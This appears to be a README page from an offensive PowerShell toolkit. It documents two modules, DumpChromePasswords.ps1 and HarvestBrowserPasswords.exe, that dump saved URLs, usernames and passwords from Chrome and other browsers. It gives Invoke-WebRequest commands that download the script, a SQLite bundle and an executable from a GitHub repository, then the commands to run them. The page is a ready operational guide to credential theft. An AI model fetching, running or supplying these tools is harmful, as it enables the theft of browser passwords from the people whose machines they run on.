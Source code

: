 ## Module Name
   <b><i>DumpChromePasswords.ps1</i></b>

|Cmdlet Name|Description|Privileges
|---|---|---|
|DumpChromePasswords|dumps URLs, usernames, and passwords from Chrome.|User Land|

   **prerequisites:**
``` 
   1. You must have the System.Data.SQLite.dll handy (see below)
   2. Your database must be accessible (close Chrome, or make some copy)
   3. It must by your database. If Chrome cannot open it, the script will probably fail as well.
```

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/DumpChromePasswords.ps1" -OutFile "DumpChromePasswords.ps1"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip" -OutFile "sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip"
```

```powershell
.\DumpChromePasswords.ps1
```

<br />


## Module Name
   <b><i>HarvestBrowserPasswords.exe</i></b>

|Binary Name|Description|Privileges
|---|---|---|
|HarvestBrowserPasswords|dumps URLs, usernames, and passwords from major browsers.|User Land|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/HarvestBrowserPasswords.exe" -OutFile "HarvestBrowserPasswords.exe"
```

```powershell
.\HarvestBrowserPasswords.exe -a, --all
.\HarvestBrowserPasswords.exe -f, --firefox
.\HarvestBrowserPasswords.exe -c, --chrome
```
